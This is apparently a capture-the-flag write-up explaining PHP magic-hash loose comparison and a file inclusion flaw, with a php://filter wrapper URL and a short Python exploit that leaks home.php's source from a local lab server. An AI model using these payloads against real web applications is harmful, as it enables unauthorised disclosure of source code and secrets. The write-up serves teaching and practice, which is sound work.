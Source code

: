 # Not a collision

## Overview
To get the flag we can use magic hashes (https://github.com/spaze/hashes/blob/master/md5.md). In fact, two strings whose hash starts with `0e...` followed by random numbers, if compared with a double equals `==`, will pass the if statement.
```php
if ("0e67523434" == "0e87923444"){
    echo "collision";
}
```
This happens because the double equals `==` forces the two strings to be treated as numbers in scientific notation, and both are $0*10^{n}$, that is, $0$.

We also see that a variable `$home` is inserted in `include` which can be `home.php` by default or any resource that we insert in page. This is clearly a file inclusion, more precisely to get the flag we need a file disclosure, this is because the flag isn't printed to us, but we can find it in the source code. Thanks to the php wrappers (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Wrappers.md) we can get the flag:
```
http://127.0.0.1:6002/?page=php://filter/convert.base64-encode/resource=home.php
```

## Exploit
```py
from requests import post
from base64 import b64decode
from bs4 import BeautifulSoup

url = "http://127.0.0.1:6002/"

# you can find all collisions here: https://github.com/spaze/hashes

data = {
    "input1": "0e215962017",
    "collision": "click"
}

resp = post(url + "?page=php://filter/convert.base64-encode/resource=home.php", data=data)
source_b64 = BeautifulSoup(resp.text, "html.parser").find_all("p")[-1].get_text().strip()

source = b64decode(source_b64).decode()
print(source)
```